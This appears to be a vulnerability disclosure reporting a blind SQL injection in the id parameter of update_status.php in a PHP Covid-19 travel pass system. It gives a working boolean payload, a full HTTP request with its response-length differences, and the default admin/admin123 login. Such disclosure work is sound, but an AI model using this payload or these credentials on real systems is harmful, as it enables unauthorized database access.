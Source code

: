 # Covid-19 Travel Pass Management System v1.0 by oretnom23 has SQL injection

Author： k0xx

The password for the backend login account is: admin/admin123

vendors: https://www.sourcecodester.com/php/15308/covid-19-travel-pass-management-system-phpoop-free-source-code.html

Vulnerability File: /ctpms/admin/applications/update_status.php?id=

Vulnerability location: /ctpms/admin/applications/update_status.php?id=,id

[+] Payload: /ctpms/admin/applications/update_status.php?id=1%27%20and%20length(database())%20=%208--+ // Leak place ---> id

Current database name: ctpms_db,length is 8

```sql
GET /ctpms/admin/applications/update_status.php?id=1%27%20and%20length(database())%20=%208--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=sbd29ujtf9eelnf4f6rlt8ikfi
Connection: close
```
When length (database ()) = 7, Content-Length: 1783

![image](https://user-images.githubusercontent.com/54017627/167082829-be853716-b6a2-4883-8324-44951b77f290.png)

![image](https://user-images.githubusercontent.com/54017627/167082899-30fe9807-3d9a-4500-820e-3ab212edbf9d.png)

When length (database ()) = 8, Content-Length: 1792

![image](https://user-images.githubusercontent.com/54017627/167082783-1b33e8c8-6b75-422b-85df-101b470d78ae.png)

![image](https://user-images.githubusercontent.com/54017627/167082871-da8d0e48-8536-4c05-879a-d1a069b2b8d7.png)
